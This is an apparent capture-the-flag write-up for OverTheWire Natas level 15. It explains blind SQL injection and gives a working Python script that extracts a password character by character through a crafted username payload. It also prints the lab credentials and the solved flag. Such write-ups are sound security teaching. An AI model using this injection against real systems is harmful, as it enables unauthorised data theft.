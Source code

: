 # Natas Level 15

Access data:

    username: natas15
    password: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

Connect to the service using basic HTTP auth by replacing the credentials in the link:
    
    http://*USERNAME*:*FLAG*@*USERNAME*.natas.labs.overthewire.org/

Another SQL injection, but now we don't have a direct way of exfiltrating the password. However, we know the username we are searching for is _natas16_ and entering it into the form let's us confirm that it exists in the database. 

As the SQL statement is still vulnerable to SQL injection we can guess the password letter by letter (using the SQL _LIKE_ operator) and the response whether the query yielded a result or not will leak the flag. This type of attack is called a **blind** SQL injection.

You could use SQLMap for this, but in beginner challenges you should code it up yourself, so you really understand what is happening. Possible solution:

```python
        import requests, string

        username = "natas15"
        password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"
        url = f"http://{username}:{password}@{username}.natas.labs.overthewire.org/index.php?debug=1" #debug=1 dumps out the SQL query if you print out the response

        possibleCharacters = list(string.ascii_letters + string.digits) #possible flag characters are letters and digits.

        resultFlag = "" #Will hold final flag and is goind to be built char by char
        characterCounter = 0 #Counter which character within possibleCharacters we are currently testing

        while(len(resultFlag) < 32): #We know flags are 32 characters long
            current_pw = resultFlag + possibleCharacters[characterCounter] #build current pw from previous leaked characters and the candidate from current iteration
            current_challenge = f'natas16" AND password LIKE BINARY "{current_pw}%' #Query whether the password for natas16 begins with current_pw
            print("Testing: " + current_pw)
            form_data = {
                "username" : current_challenge
            }
            resp = requests.post(url, form_data)

            if("This user doesn't exist." in resp.text): #We guessed wrong. Increment characterCounter and go next.
                characterCounter += 1        
            else: #We guessed correctly! Add character to resultFlag and restart for the next character in the pw we are guessing.
                print("match!")
                resultFlag = current_pw
                characterCounter = 0
                    

        print("Flag: " + resultFlag)
```

Flag obtained!

<details>
  <summary>Solution</summary>
  Flag: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
</details>
